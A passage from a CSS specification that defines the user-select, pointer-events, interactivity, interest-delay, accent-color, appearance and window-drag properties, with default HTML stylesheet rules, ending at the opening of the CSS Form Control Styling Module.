| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

User agents must not apply the `user-select` property to the `::first-line` and `::first-letter` pseudo-elements.

> **Note:** The UA may apply this property to the `::before` and `::after` pseudo-elements. If it does, the `auto` value maps to a used value of `none` on these pseudos, but other values can be specified. This preserves the legacy behavior of generated content not being selectable or copyable, which is appropriate when these pseudos are used for decorative purposes. However, this property allows them to become selectable and copyable, as the user would expect in cases where they are used to generate parts of the content, such as the issue numbers in this document. **To the extent possible, authors should avoid using generated content for non-decorative purposes, and should prefer including all the content in the DOM.** *This feature is at risk.*

> **Issue:** if we allow user-select to change to a value other than `none`, we need to figure out what this means for copyability and DOM APIs.

When generated content in pseudo-elements becomes selectable through this mechanism, UAs should also make this content findable through their search function.

> **Issue:** Should it also apply to `::marker`? To page-margin boxes? Should the used value of `auto` also be `none`, or would `text` be more appropriate?

The used value is the same as the computed value, except:

1. on editable elements where the used value is always `contain` regardless of the computed value
2. when the computed value is `auto`, in which case the used value is one of the other values as defined below

For the purpose of this specification, an **editable element** is either an [editing host](https://w3c.github.io/contentEditable/#dfn-editing-host) or a mutable form control with textual content, such as `textarea`.

> **Issue:** Should there be constraints on what happens to the used value on elements that are editable descendants of editing hosts? The semantics are not obvious. Maybe `none` should map to `text`, or maybe all values should map to `text`.

****auto****

: The used value of `auto` is determined as follows:

  - On the `::before` and `::after` pseudo-elements, the used value is `none`
  - If the element is an editable element, the used value is `contain`
  - Otherwise, if the used value of `user-select` on the parent of this element is `all`, the used value is `all`
  - Otherwise, if the used value of `user-select` on the parent of this element is `none`, the used value is `none`
  - Otherwise, the used value is `text`

  > **Note:** This unusual combination of a non-inherited property with an initial value of `auto` whose used value depends on the parent element makes it possible to create what is effectively selective inheritance. This was initially proposed by Microsoft in IE to introduce a behavior similar to inheritance, except that the `contain` value does not inherit.

****text****

: The element imposes no constraint on the selection.

****none****

: The UA must not allow selections to be started in this element.

  A selection started outside of this element must not end in this element. If the user attempts to create such a selection, the UA must instead end the selection range at the element boundary.

  > **Note:** As of the time of writing, experimental implementations do not all behave like this. Firefox does. Chrome and Safari almost do: for a selection started after the element and trying to go backwards into the element, they behave as specified here, but for a selection started before the element and trying to go into the element, they behave as if the element has `all` and select it entirely. IE does not restrict selections started outside of the element from going into it at all. Another difference is that in Chrome and Safari, if the user attempts to start a selection inside a `user-select: none`, and to end the selection out of it, a selection will be created from the boundary of the element to the user-designated end point. Firefox and Internet Explorer behave as prescribed in this specification and do not create a selection at all.

  However, if this element has descendants on which the used value of `user-select` is not `none`, selections that start and end within these descendants are allowed.

  The UA must allow selections to extend across this element, and must exclude this element from such a selection. An exception is made for UAs which do not support multiple ranges per selection, and they may include this element. If the element has descendants on which the used value of `user-select` is not `none`, these descendants must be included in a selection extending across the element. This specification makes no normative requirement about the behavior of the clipboard. However, UAs are encouraged to keep the visual selection consistent with what would get copied to the clipboard when copying. Copying text that does not appear to be selected, or vice versa, is highly confusing to users.

  Attempting to start a selection in an element where `user-select` is `none`, such as by clicking in it or starting a drag in it, must not cause a pre-existing selection to become unselected or to be affected in any way.

  As `user-select` is a UI convenience mechanism, not a copy protection mechanism, the UA may provide an alternative way for the user to explicitly select the text even when `user-select` is `none`.

  > **Note:** `none` is not a copy protection mechanism, and using it as such is ineffective: user agents are allowed to provide ways to bypass it, it will have no effect on legacy user agents that do not support it, and the user can disable it through the user style sheet or equivalent mechanisms on UAs that do anyway. Instead, `none` is meant to make it easier for the user to select the content they want by letting the author disable selection on UI elements that are not useful to select. Tools such as CSS validators, linters, or in-browser developer tools are encouraged to use heuristics to detect and warn against incorrect or abusive usage that would hamper usability or violate common user expectations.

  > **Note:** Authors should be careful about not constraining the user unnecessarily. For example, setting `user-select: none` on the root element, and relaxing that restriction on a handful of elements the author judges useful to select can be frustrating to users:
  >
  > - Clicking in empty areas to undo the current selection will no longer be effective
  > - The author may have overlooked some areas which should be selectable
  > - Areas may be added later to the page without remembering to make them selectable
  > - The user may want to select pieces of text other than the main content, for instance to look them up in a dictionary or in some translation tool, or to look for warnings and error messages in a search engine…
  >
  > Instead, a good practice is for authors is to selectively apply `user-select: none` to elements which seem likely to be accidentally selected when doing so would interfere with the more likely intended action. Accidentally leaving parts of the page that are unlikely to be interacted with selectable will likely cause much less frustration to users than the opposite.

****contain****

: UAs must not allow a selection which is started in this element to be extended outside of this element.

  A selection started outside of this element must not end in this element. If the user attempts to create such a selection, the UA must instead end the selection range at the element boundary.

  The UA must allow selections to extend across this element, and such selections must include the content of the element.

  > **Note:** At the time of writing, experimental implementations behave differently from each other about selections started outside and selections going into the element. The behavior can be observed even on browsers that do not explicitly support `contain` by trying to select into a `textarea` or a contenteditable element.

  > **Note:** This was initially introduced as an experimental feature in Internet Explorer, under the name `user-select: element`.

****all****

: The content of the element must be selected atomically: If a selection would contain part of the element, then the selection must contain the entire element including all its descendants. If the element is selected and the used value of `user-select` on its parent is `all`, then the parent must be included in the selection, recursively.

  If this element has descendants on which the used value of `user-select` is not `all` and if a selection is entirely contained in these descendants, then the selection is not extended to include this whole element.

> **Note:** Selections can include more than just text and extend over images, tables, videos, etc. The behavior when copying and pasting such selections is out of scope for this specification.

The following additions are made to the UA stylesheet for HTML:

```
button, meter, progress, select { user-select: none; }
```

> **Issue:** the list above is incomplete and needs to include at least the various button-like variants of `input`.

For compatibility with legacy content, UAs that support `user-select` must also support **-webkit-user-select** as an alias.

> **Note:** The details of the aliasing mechanism is intentionally left up to the UA. Making `-webkit-user-select` a shorthand property of `user-select` is known to be an effective approach, and new implementers should consider it. However, UAs supporting `-webkit-user-select` as an alias of `user-select` through other means exist without adverse consequences to compatibility, so this specification allows flexibility.

#### 6.2.  Exclusion from Hit-testing: the `pointer-events` property {#css-ui-4:pointer-events-control}

> **Issue:** While this property modifies the normal behavior of hit-testing, this normal **hit-testing** is currently not specified. There is broad interoperability about the seemingly obvious parts of this problem, but there are countless nuances and corner cases that would greatly benefit from a detailed specification. The CSS-WG would hugely appreciate help with writing such a specification.

| Field | Value |
| --- | --- |
| Name: | **pointer-events** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | `auto` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `pointer-events` property defines whether an element’s boxes can be targeted by point pointer events. Values have the following meanings:

****auto****

: Hit-testing occurs normally.

****none****

: Hit-testing acts as if the boxes generated by the element (see [CSS-DISPLAY-3]) were not there, effectively causing the element behind the `pointer-events: none` element to become the target of hit-testing-based events instead.

  > **Issue:** The statement above needs to be qualified; for some purposes, hit-testing continues to take the element into account. For instance, clicking and dragging to start a text selection will continue to work as usual. What is the precise set of things for which hit-testing is affected by `pointer-events`?

`pointer-events: none` does not inhibit [sequential focus navigation](https://html.spec.whatwg.org/multipage/interaction.html#sequential-focus-navigation).

> **Note:** This `pointer-events: none` only excludes the element itself from hit-testing, not the whole subtree. While this property propagates to descendants via inheritance, `pointer-events: auto` can be specified on a descendant of a `pointer-events: none` element, and such an element will participate normally in hit-testing.

> **Note:** Events that target a `pointer-events: auto` descendant of a `pointer-events: none` element can still be caught by event handlers on `pointer-events: none` ancestors of the targeted element during the bubbling or capturing phases (see [DOM § 2 Events](https://dom.spec.whatwg.org/#events)).

> **Note:** [SVG 2 § 15.6 The ‘pointer-events’ property](https://www.w3.org/TR/SVG2/interact.html#PointerEventsProp) defines a variant of this property for SVG elements, with more possible values. The effect of such values outside of SVG is currently not defined.

#### 6.3.  Preventing All Interaction: the `interactivity` property {#css-ui-4:inertness}

| Field | Value |
| --- | --- |
| Name: | **interactivity** |
| [Value:](#css-values-4:value-defs) | auto \| inert |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `interactivity` property specifies whether an element and its flat tree descendants (including text nodes) are inert or not.

****auto****

: The element’s inertness is determined by the host language. (This will *usually* mean the element is not inert.)

****inert****

: The element is inert.

When an element or text node is **inert**:

- Hit-testing must act as if `pointer-events` was `none`, regardless of its actual value.
- Text selection must act as if `user-select` was `none`, regardless of its actual value.
- If the element or text node is editable, it must behave as if it was non-editable.
- The element or text node should be ignored for the purposes of find-in-page and similar searching actions.

User agents may allow the user to override the restrictions on find-in-page and text selection.

> **Note:** This property allows an author to force an element inert, but doesn’t allow making an element *non*-inert, just deferring inertness to the host language. For example, in HTML, while a modal dialog is being displayed, the rest of the page is forced inert automatically, regardless of the value of this property. In general, host languages can make use of more information about the document than CSS has easy access to to determine what the best inertness behavior is for users.

> **Note:** Inert nodes generally cannot be focused, and user agents do not expose the inert nodes to accessibility APIs or assistive technologies. An inert subtree should not contain any content or controls which are critical to understanding or using aspects of the page which are not in the inert state. Content in an inert subtree will not be perceivable by all users, or interactive. Authors should not specify elements as inert unless the content they represent are also visually obscured in some way. In most cases, authors should not specify the inert attribute on individual form controls. In these instances, the `disabled` attribute is probably more appropriate.

> **Issue:** The following should be inserted into the HTML stylesheet, to ensure that top-level modal dialogs become uninert by default:
>
> ```
> [inert] {
>   interactivity: inert;
> }
> dialog:modal {
>   interactivity: auto;
> }
> ```
>
> The `dialog:modal` selector above needs to be expanded for any other elements that escape inertness by default.

#### 6.4.  User Interest Delay: the `interest-delay-*` properties {#css-ui-4:interest}

| Field | Value |
| --- | --- |
| Name: | **interest-delay-start**, **interest-delay-end** |
| [Value:](#css-values-4:value-defs) | normal \| `<time>` |
| [Initial:](#css-cascade-6:initial-values) | `normal` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `normal` or a computed time |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

| Field | Value |
| --- | --- |
| Name: | **interest-delay** |
| [Value:](#css-values-4:value-defs) | `<'interest-delay-start'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

Some host language features can be activated when a user shows interest in an element. Exactly what this means is up to the host language and user agent (for example, the HTML `interestfor` attribute), but a common property of such features is that "interest" shouldn’t be gained or lost *instantly*.

For example, if "interest" can be shown by hovering the cursor over an element, briefly passing the cursor over the element while moving the cursor over the page should not (at least by default) indicate "interest"—​that could result in UI confusingly popping up and disappearing while the user is performing unrelated tasks.

Similarly, once interest has been shown, the interest source should not (at least by default) *lose* interest instantaneously either. Again, as an example, if the user shows interest in a link by hovering the cursor over it, causing a child popup list to appear next to it, moving the cursor from the link to the popup likely involves briefly leaving both the link and the list, but shouldn’t cause the list to "lose interest" and close the popup.

The `interest-delay` shorthand, and its `interest-delay-start` and `interest-delay-end` longhands, allow control of the **interest start delay** and **interest end delay** for these features on a given element. Its possible values are:

****normal****

: The interest start delay and/or the interest end delay are UA-defined. They can be chosen to match platform conventions.

  These delays *should not* be zero. They *may* be different from each other, and may vary depending on the way the user is showing interest. (For example, a "hover" and a "long press" might use different delays for indicating interest.)

****`<time>`****

: Specifies that the interest start delay and/or the interest end delay are the specified duration.

The `interest-delay` shorthand sets `interest-delay-start` to its first value, and `interest-delay-end` to its second value (or to the first value, if only one value is passed).

> **Note:** In the future, the syntax of these properties might be expanded to allow for customizing the delay depending on feature and how the user is showing interest. (For example, providing different delays for hovering vs long-pressing.)

### 7.  Styling Widgets {#css-ui-4:styling-widgets}

#### 7.1.  Widget Accent Colors: the `accent-color` property {#css-ui-4:widget-accent}

| Field | Value |
| --- | --- |
| Name: | **accent-color** |
| [Value:](#css-values-4:value-defs) | auto \| `<color>` |
| [Initial:](#css-cascade-6:initial-values) | `auto` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or a computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

User interface controls on any given platform are typically designed as a cohesive set, under a single, cohesive visual style. On many platforms (though not all), the visual style includes the use of an **accent color**, a typically bright color that contrasts markedly with the more utilitarian background and foreground colors. Not every control uses the accent color in every state, but it is nonetheless a core part of the controls’ color scheme.

The `accent-color` CSS property allows the author to specify the accent color for user-interface controls generated by the element. Values have the following meanings:

****auto****

: Represents a UA-chosen color, which should match the accent color of the platform, if any.

****`<color>`****

: Specifies the color to be used as the accent color.

The UA should use the specified `accent-color` to draw whichever parts of the element’s control(s) would have otherwise been styled with an accent color. The UA must maintain contrast for legibility of the control, and in order to do so may adjust the luminance or brightness of the color or make color substitutions in other parts of the control (e.g. switching an overlaid glyph from using `color` to using `background-color`). It may also generate variations of the color for gradients etc. to match the control to platform conventions for the use of the accent color.

> **Example:** A radio button is typically composed of a circle, potentially overlaid by a “dot” representing the checked state. Certain visual styles use an accent color for the checked state: some of these use it for the background of the circle, others for its foreground.
>
> In both cases, the `accent-color` property styles the affected parts of the control. For visual styles that do not use an accent color for radio buttons, `accent-color` will have no effect.
>
> The following are all examples of radio buttons conformantly rendered with a blue `accent-color`:
>
> | Platform | Sample | Notes |
> | --- | --- | --- |
> | Firefox 79 / Win |   | No use of accent color. |
> | Chrome 81 / Win |   | No use of accent color. |
> | Safari / Snow Leopard |   | Accent color used to generate checked-state “background” gradient. |
> | Safari 13 / Mac / Light |   | Accent color as checked-state “foreground”. |
> | Safari 13 / Mac / Dark |   | Accent color as checked-state “foreground”. |
> | Chrome 83 / Win / Light |   | Accent color as checked-state “foreground”. |
> | Chrome 83 / Win / Dark |   | Accent color as checked-state “foreground”, contrast-adjusted for dark mode backgrounds. |

If the color supplied is partially or fully transparent, the user agent must first pre-compose it over the `Canvas` system color and use the resulting (now opaque) color as the accent color.

> **Note:** Although it may vary based on user settings, `Canvas` is typically white when in a light color scheme and black when in a dark color scheme.

#### 7.2.  Switching appearance: the `appearance` property {#css-ui-4:appearance-switching}

| Field | Value |
| --- | --- |
| Name: | **appearance** |
| [Value:](#css-values-4:value-defs) | `none` \| `auto` \| `base` \| `base-select` \| `<compat-auto>` \| `<compat-special>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

While the way most elements in a document look can be fully controlled by CSS, widgets are typically rendered by UAs using native UI controls of the host operating system, which can neither be replicated nor styled using CSS.

The term **widget** in this specification denotes replaced elements that can have **native appearance**, meaning that they are rendered like analogous native widgets or controls of the host operating system or platform, or with a look and feel not otherwise expressible in CSS. It is up to the host language (e.g., HTML [HTML]) to define which elements can have native appearance.

This specification introduces the `appearance` property to provide some control over this behavior. In particular, using `appearance: none` allows authors to suppress the native appearance of widgets, giving them a **primitive appearance** where CSS can be used to restyle them.

Using `appearance: base` gives widgets a **base appearance**. Widgets in base appearance have their native appearance suppressed where CSS can be used to restyle them, just like primitive appearance, but also have default styles which are usable and interoperable. This is unlike primitive appearance which can cause some widgets to disappear completely.

A widget can have some style sheet associated with it and those styles can change based on whether the widget has a base appearance. Native appearance and primitive appearance should have the same styles.

> **Issue:** `appearance:base` is not ready to ship until its stylesheet has been fully defined in the HTML specification, and implemented accordingly for all HTML form controls.

> **Note:** on the history of this feature
>
> This previously existed in prefixed form in most browsers. Before standardization, in addition to `none`, the possible values were a very long list of all the ways an element could look; each value being responsible for giving form controls their specific look and feel. This list was different across browsers.
>
> The CSS Working Group concluded this was impractical to standardize, in part because many values applied to pseudo-elements that other browsers don’t have, as they construct form elements differently, and which should not be standardized, since the ability to make form controls look substantially different on different platforms should be preserved.
>
> Also, the ability to turn any arbitrary element (including any form control) into any (other) arbitrary form control is considered a misfeature.
>
> Instead, the design being specified is based on just having an "auto" value that makes form controls look like whatever they need, and a "none" value that suppresses native appearance.
>
> However, there is evidence that this alone is not web compatible, due in part to uses such as:
>
> ```
> input { appearance: none; }
> input[type=checkbox] { appearance: checkbox; }
> ```
>
> The design specified here is a compromise between the two, preserving the simplicity of the `none | auto` model while maintaining compatibility with existing content via a few additional keywords.
>
> The precise list of keywords needed for compatibility and their exact behavior is likely to be refined in a future version of this specification to better handle compatibility with existing content. The CSS-WG welcomes relevant feedback.

****none****

: The element is rendered following the usual rules of CSS. Replaced elements other than widgets are not affected by this and remain replaced elements. Widgets must not have their native appearance, and instead must have their primitive appearance. See [§ 7.2.2 Effects of appearance on Decorative Aspects of Elements](#css-ui-4:appearance-decorative) and [§ 7.2.3 Effects of appearance on Semantic Aspects of Elements](#css-ui-4:appearance-semantics) for details.

****auto****

: The element’s box is laid out like a regular replaced element.

  Within that box, elements representing widgets should have the native appearance of that widget.

  The host language is responsible for defining which elements represent which widgets.

  Elements other than widgets must be rendered as for `none`.

****base****

: The effect of `base` depends on the element it is applied to:

  **elements other than widgets**

  : Elements other than widgets must be rendered as for `none`.

  **Widgets which support base appearance**

  : Just like `none`, the element is rendered following the usual rules of CSS. Widgets must not have their native appearance, and instead must have their base appearance.

  **Widgets which don’t support base appearance**

  : Widgets which don’t have a base appearance must be rendered as for `auto`. The host language is responsible for defining which widgets have a base appearance.

****base-select****

: The effect of `base-select` depends on the element it is applied to:

  **The `select` element or `::picker(select)`**

  : The element is rendered as for `base`.

  **Everything else**

  : The element is rendered as for `auto`.

****<compat-auto>****

: These values exist for compatibility of content developed for earlier non-standard versions of this property. They all have the same effect as `auto`.

  ```css
  <compat-auto> =  searchfield | textarea | checkbox | radio | menulist | listbox | meter | progress-bar | button 
  ```

  > **Issue:** When `auto` is widely supported, recommend using it instead.

  > **Issue:** If any of these values are not needed for web compat, they should be dropped from this list; conversely, any value needed for compat not included in this list should be added.

  > **Issue:** It is possible that for compat reasons some of these values need to be promoted to being full blown values with effects on arbitrary elements, or that some of these values need to have some side effects on some widgets.

****<compat-special>****

: These values exist for compatibility of content developed for earlier non-standard versions of this property. For the purpose of this specification, they all have the same effect as `auto`. However, the host language may also take these values into account when defining the native appearance of the element.

  ```css
  <compat-special> =  textfield | menulist-button 
  ```

  > **Example:** For instance, in [HTML]:
  >
  > - The native appearance of `input` elements with a `"search"` `type` attribute changes to match the appearance of `input` elements with a `"text"` `type` attribute when `appearance` is `textfield`.
  > - The native appearance of drop-down box `select` elements changes to match that of its devolved state when `appearance` is `menulist-button`.

> **Issue:** The values `slider-vertical` and `sliderthumb-vertical` are supported in some user agents to change the orientation of `<input type=range>` elements. These values are not specified because changing the orientation of this control is better done with a separate mechanism. See issue [whatwg/html#4177](https://github.com/whatwg/html/issues/4177).

> **Example:** An author wanting to customize the look and feel of check boxes in HTML could use the following:
>
> ```
> input[type=checkbox] {
>   all: unset; /* this shorthand includes resetting appearance to none */
>   width: 1em;
>   height: 1em;
>   display: inline-block;
>   background: red;
> }
> input[type=checkbox]:checked {
>   border-radius: 50%;
>   background: green;
> }
> input[type=checkbox]:focus-visible {
>   outline: auto;
> }
> ```
>
> `<input type="checkbox">` would be rendered as , while `<input type="checkbox" checked>` would be rendered as , and activating (for example by clicking) the element would toggle the state as usual.

User agents may disregard some CSS properties used to size and paint the contents of widgets rendered with their native appearance to ensure that the intended appearance is preserved, or because these properties may not be meaningful for the chosen appearance.

**Disregarding** a property means that the user agent treats it as if it didn’t apply to the widget in question. Nevertheless, unless an explicit exception is specified (for compatibility reasons), the user agent must still determine the computed value of any disregarded property according to the usual rules.

In more detail, the rules for disregarding properties for natively rendered widgets are:

- CSS properties that impact the box sizing or position of the widget’s box (such as the sizing properties), or their visual appearance outside of the box (such as `transform`, `filter` or `box-shadow`), must be applied to widgets rendered with their native appearance. The widget’s box participates in the rest of layout like any other replaced element.
- Properties that affect the internal box model sizing of the widget’s box (such as `box-sizing`, `padding`, `border` or `margin`) may be disregarded when needed.
- Other properties that affect painting (like `background-color`) may be disregarded when needed.
- User agents should take into account CSS properties that affect writing modes or font-related properties when possible, when rendering text within the widget.
- The `object-fit` property does not apply.

> **Example:** Some user agents respect the `border` and `padding` CSS properties for a <select> rendered with native appearance, but not for <input type=checkbox>.

Native rendering of widgets may overflow the size of its box if its intrinsic sizing exceeds that size.

For compatibility with legacy content, UAs must also support **-webkit-appearance** as a legacy name alias of `appearance`.

##### 7.2.1.  Properties Disabling Native Appearance {#css-ui-4:appearance-disabling-properties}

Certain properties, when declared in the Author Origin, will disable the native appearance of certain widgets. Specifically, if all the declarations of the Author Origin pertaining to such a widget are cascaded and a cascaded value exists—​after having rolled back any number `revert` or `revert-layer` values—​for any property that disables native appearance for widgets, then that widget is rendered as a devolved widget. The rendering of a **devolved widget** is identical to that of the widget in its primitive appearance, except when specified otherwise by the host language.

The host language defines which elements represent **devolvable widgets**. Widgets whose appearance remains native regardless of any properties that disable native appearance for widgets are called **non-devolvable widgets**.

The **properties that disable native appearance for widgets** are:

- `background-color`
- `border-top-color`
- `border-top-style`
- `border-top-width`
- `border-right-color`
- `border-right-style`
- `border-right-width`
- `border-bottom-color`
- `border-bottom-style`
- `border-bottom-width`
- `border-left-color`
- `border-left-style`
- `border-left-width`
- `border-block-start-color`
- `border-block-end-color`
- `border-inline-start-color`
- `border-inline-end-color`
- `border-block-start-style`
- `border-block-end-style`
- `border-inline-start-style`
- `border-inline-end-style`
- `border-block-start-width`
- `border-block-end-width`
- `border-inline-start-width`
- `border-inline-end-width`
- `background-image`
- `background-attachment`
- `background-position`
- `background-clip`
- `background-origin`
- `background-size`
- `border-image-source`
- `border-image-slice`
- `border-image-width`
- `border-image-outset`
- `border-image-repeat`
- `border-top-left-radius`
- `border-top-right-radius`
- `border-bottom-right-radius`
- `border-bottom-left-radius`
- `border-start-start-radius`
- `border-start-end-radius`
- `border-end-start-radius`
- `border-end-end-radius`

##### 7.2.2.  Effects of `appearance` on Decorative Aspects of Elements {#css-ui-4:appearance-decorative}

All decorative visual aspects of a widget which are not caused by a CSS style rule must be suppressed when the appearance is changed from native to primitive using `appearance`, even if the UA’s internal representation for this element was composed of multiple elements or pseudo-elements combined together.

> **Example:** For example, the [HTML] `select` element is often rendered with an arrow on the right side indicating that the list will be expanded if the element is clicked. If the computed value of `appearance` on a `select` element is `none`, this must disappear.

UAs should include in their user agent stylesheet style rules to give widgets a recognizable shape when `appearance` is `none`.

> **Note:** Authors may therefore need to override these UA style rules to get the styling they intended.

> **Advisement:** Authors may find it convenient to use `all: unset` to get fully unstyled widgets, which they can then style as they want without interference from the user agent’s stylesheet. However, this also suppresses the focus indicators provided by the same UA stylesheet. In order to avoid damaging accessibility, authors who do so should restore a focus indicator, for instance, by using `:focus-visible { outline: auto; }`.

##### 7.2.3.  Effects of `appearance` on Semantic Aspects of Elements {#css-ui-4:appearance-semantics}

When showing the primitive appearance of a widget or its devolved state, user agents must preserve aspects of the widget which are necessary to operate the widget with its original semantics. The UA may, however, give them a different look and feel as long as it remains possible to operate the widget. Aspects of a widget which are merely needed to observe the state the widget is in and are not needed to operate it should be suppressed as well when the same information can be conveyed using ordinary CSS. Document languages should specify for each widget that they define what needs to be preserved.

> **Example:** For example, the slider of an `<input type=range>` is preserved (or replaced by an equivalent mechanism) even if `appearance` is `none`, as it would otherwise not be possible to change the value of the range with the mouse or touchscreen.
>
> On the other hand, the check mark in an `<input type=checkbox checked>` must be suppressed, as it merely indicates the state the element is in, which can be styled in different ways using the `:checked` selector.

The behavior and semantics of elements remain defined by the document language, and are not influenced by this property.

> **Example:** For example, regardless of the computed value of `appearance`:
>
> - Elements which can be in different states keep this ability, and the relevant pseudo-classes match as usual.
> - If a `select` element is activated, the UI to choose one of the associated `option` elements is shown (although it may look different).
> - Event handlers attached to the element trigger as usual.

Conversely, changing the appearance of an element must not cause it to acquire the semantics, pseudo-classes, event handlers, etc. that are typical of the element whose appearance it acquires.

> **Example:** For example, neither `:enabled` nor `:disabled` match on a `div` styled with `appearance: button`. The ability for an element to be focused is also not changed by the `appearance` property.

#### 7.3.  Control-Specific Rules {#css-ui-4:control-specific-rules}

> **Issue:** Maybe some or all of this section should be moved to the [HTML] spec. at some point.

> **Issue:** On some elements, setting some properties inhibits `appearance: auto`. For instance, even if `appearance` is `auto`, buttons lose their native appearance when a `border` is set. This is not in contradiction with the definition of `auto`, since `appearance: auto` only means UAs *may* use a native appearance, but for greater interoperability, it would be good to document which properties on which elements have this effect.

> **Issue:** Documenting what UAs need to put in their UA stylesheet would be good.

##### 7.3.1.  Single-Line Text Input Controls {#css-ui-4:input-rules}

When `appearance` is `auto`, single-line text input controls such as [HTML] `<input type=text>` must be rendered so that:

- The content is clipped in the inline direction to the content edge
- The content is clipped in the block direction to the padding edge
- The content is vertically centered
- The content does not wrap
- The `text-overflow` property applies regardless of the value of the `overflow` property

### 8.  Window Interaction {#css-ui-4:window-interaction}

#### 8.1.  Moving the window: the `window-drag` property {#css-ui-4:window-drag}

| Field | Value |
| --- | --- |
| Name: | **window-drag** |
| [Value:](#css-values-4:value-defs) | none \| move |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

An installed application’s window typically has a designated area where it can be dragged to move the window. This area is generally at the top of the window (usually part of the titlebar, toolbar, or both), outside of the region that the page is actually rendered in. For installed web apps, APIs or capabilities like [WINDOW-CONTROLS-OVERLAY] can alter and remove the surfaces where users can move a window. The `window-drag` property allows the author to specify an area *within* the page where a user can drag to move the window. Values have the following meanings:

****none****

: Specifies that the element cannot be used as a drag area.

****move****

: Specifies that the element’s principal box can be used as a window drag area.

> **Note:** Some UAs may support `app-region` as a legacy shorthand for `window-drag`.

When a box is a **window drag area**, a drag gesture on that element initiates a window move operation instead of normal web event processing. The UA must not fire pointer events, mouse events, or drag events on the element for the duration of the window move gesture.

> **Note:** This means the [HTML] `draggable` attribute has no effect on elements with `window-drag: move`; the window move behavior takes precedence.

---

### Appendix E: Default style sheet additions for HTML {#css-ui-4:default-style-sheet}

This appendix is *informative*.

Potential additions to the base style sheet to express HTML form controls, and a few dynamic presentation attributes:

```css
:enabled:focus {
  outline: 2px inset;
}

button,
input[type=button],
input[type=reset],
input[type=submit],
input[type=checkbox],
input[type=radio],
textarea,
input,
input[type=text],
input[type=password],
input[type=image] {
  display: inline-block;
}

input[type=button],
input[type=reset],
input[type=submit],
input[type=checkbox],
input[type=radio],
input,
input[type=text],
input[type=password],
input[type=image] {
  white-space: nowrap;
}

button {
  /* white space handling of BUTTON tags in particular */
  white-space:normal;
}

input[type=reset]:lang(en) {
  /* default content of HTML input type=reset button, per language */
  content: "Reset";
}

input[type=submit]:lang(en) {
  /* default content of HTML input type=submit button, per language */
  content: "Submit";
}

/* UAs should use language-specific Reset/Submit rules for others. */

input[type=button],
input[type=reset][value],
input[type=submit][value] {
  /* text content/labels of HTML "input" buttons */
  content: attr(value);
}

textarea {
  /* white space handling of TEXTAREA tags in particular */
  white-space:pre-wrap;
  resize: both;
}

input[type=hidden] {
  /* appearance of the HTML hidden text field in particular */
  display: none !important;
}

input[type=image] {
  content: attr(src,url);
  border: none;
}

select[size] {
  /* HTML4/XHTML1 <select> w/ size more than 1 - appearance of list */
  display: inline-block;
  height: attr(size,em);
}

select,select[size=1] {
  /* HTML4/XHTML1 <select> without size, or size=1 - popup-menu */
  display: inline-block;
  height: 1em;
  overflow: hidden;
}

select[size]:active {
  /* active HTML <select> w/ size more than 1 - appearance of active list */
  display: inline-block;
}

optgroup, option {
  display: block;
  white-space: nowrap;
}

optgroup[label],option[label] {
  content: attr(label);
}

option[selected]::before {
  display: inline;
  content: check;
}

/* Though FRAME resizing is not directly addressed by this specification,
   the following rules may provide an approximation of reasonable behavior. */

/*

frame { resize:both }
frame[noresize] { resize:none }

*/
```

---

## CSS Form Control Styling Module Level 1 {#css-forms-1}

- **Shortname:** `css-forms-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-forms-1/](https://drafts.csswg.org/css-forms-1/)
- **Published TR:** [https://www.w3.org/TR/css-forms-1/](https://www.w3.org/TR/css-forms-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-08

### 1. Introduction {#css-forms-1:intro}

*This section is non-normative.*

